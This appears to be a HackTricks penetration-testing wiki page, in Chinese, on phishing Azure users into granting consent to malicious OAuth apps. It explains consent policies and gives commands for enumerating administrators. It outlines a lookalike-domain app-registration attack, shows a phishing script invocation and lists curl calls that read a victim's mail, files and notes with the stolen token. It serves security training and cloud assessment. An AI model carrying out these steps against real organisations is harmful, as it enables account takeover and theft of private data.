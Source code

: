 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## OAuth App Phishing

**Azure 应用程序** 配置了用户同意应用程序时将能够使用的权限（例如枚举目录、访问文件或执行其他操作）。请注意，应用程序将代表用户进行操作，因此即使应用程序可能请求管理权限，如果 **同意的用户没有该权限**，应用程序 **将无法执行管理操作**。

### 应用程序同意权限

默认情况下，任何 **用户都可以给应用程序提供同意**，尽管可以配置为用户只能同意 **来自经过验证的发布者的特定权限的应用程序**，甚至 **移除用户同意应用程序的权限**。

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

如果用户无法同意，像 `GA`、`Application Administrator` 或 `Cloud Application` `Administrator` 的 **管理员** 可以 **同意用户将能够使用的应用程序**。

此外，如果用户只能同意使用 **低风险** 权限的应用程序，这些权限默认是 **openid**、**profile**、**email**、**User.Read** 和 **offline_access**，尽管可以 **向此列表添加更多**。

如果他们可以同意所有应用程序，他们可以同意所有应用程序。

### 2 种攻击类型

- **未认证**：从外部帐户创建一个具有 **低风险权限** `User.Read` 和 `User.ReadBasic.All` 的应用程序，例如，钓鱼用户，您将能够访问目录信息。
- 这要求被钓鱼的用户 **能够接受来自外部租户的 OAuth 应用程序**
- 如果被钓鱼的用户是可以 **同意任何具有任何权限的应用程序** 的某些管理员，则该应用程序也可以 **请求特权权限**
- **已认证**：在拥有足够权限的主体被攻陷后，**在帐户内创建一个应用程序** 并 **钓鱼** 一些 **特权** 用户，这些用户可以接受特权 OAuth 权限。
- 在这种情况下，您已经可以访问目录的信息，因此权限 `User.ReadBasic.All` 不再有趣。
- 您可能对 **需要管理员授予的权限** 感兴趣，因为普通用户无法给 OAuth 应用程序任何权限，这就是为什么您需要 **仅钓鱼这些用户**（稍后将详细介绍哪些角色/权限授予此特权）

### 用户被允许同意

请注意，您需要从租户内的用户执行此命令，无法从外部租户找到此配置。以下 CLI 可以帮助您了解用户权限：
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- 用户可以对所有应用程序进行同意：如果在 **`permissionGrantPoliciesAssigned`** 中可以找到：`ManagePermissionGrantsForSelf.microsoft-user-default-legacy`，则用户可以接受每个应用程序。
- 用户可以对来自经过验证的发布者或您组织的应用程序进行同意，但仅限于您选择的权限：如果在 **`permissionGrantPoliciesAssigned`** 中可以找到：`ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`，则用户可以接受每个应用程序。
- **禁用用户同意**：如果在 **`permissionGrantPoliciesAssigned`** 中只能找到：`ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` 和 `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team`，则用户无法进行任何同意。

可以在以下位置找到每个注释策略的含义：
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **应用程序管理员**

检查被视为应用程序管理员的用户（可以接受新应用程序）：
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **攻击流程概述**

攻击涉及几个步骤，针对一个通用公司。以下是可能的展开方式：

1. **域名注册和应用托管**：攻击者注册一个类似于可信网站的域名，例如 "safedomainlogin.com"。在该域名下，创建一个子域名（例如 "companyname.safedomainlogin.com"）来托管一个旨在捕获授权代码和请求访问令牌的应用程序。
2. **在 Azure AD 中注册应用**：攻击者随后在其 Azure AD 租户中注册一个多租户应用，以目标公司的名称命名，以显得合法。他们将应用的重定向 URL 配置为指向托管恶意应用的子域名。
3. **设置权限**：攻击者为应用设置各种 API 权限（例如 `Mail.Read`、`Notes.Read.All`、`Files.ReadWrite.All`、`User.ReadBasic.All`、`User.Read`）。一旦用户授予这些权限，攻击者就可以代表用户提取敏感信息。
4. **分发恶意链接**：攻击者制作一个包含恶意应用客户端 ID 的链接，并与目标用户分享，诱使他们授予同意。

## 示例攻击

1. 注册一个 **新应用**。如果您使用的是被攻击目录中的用户，则只能针对当前目录，或者如果这是外部攻击（如以下图像所示），则可以针对任何目录。
1. 还要将 **重定向 URI** 设置为您希望接收代码以获取令牌的预期 URL（默认值为 `http://localhost:8000/callback`）。

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. 然后创建一个应用密钥：

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. 选择 API 权限（例如 `Mail.Read`、`Notes.Read.All`、`Files.ReadWrite.All`、`User.ReadBasic.All`、`User.Read`）

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **执行网页 (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)**，请求权限：
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **将 URL 发送给受害者**
1. 在这种情况下 `http://localhost:8000`
6. **受害者**需要**接受提示：**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. 使用**访问令牌访问请求的权限**：
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## 其他工具

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** 查看 [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) 了解如何配置它。
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## 后期利用

### 钓鱼后期利用

根据请求的权限，您可能能够**访问租户的不同数据**（列出用户、组...或甚至修改设置）和**用户的信息**（文件、笔记、电子邮件...）。然后，您可以使用这些权限执行这些操作。

### 应用程序后期利用

查看页面的应用程序和服务主体部分：

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## 参考

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}
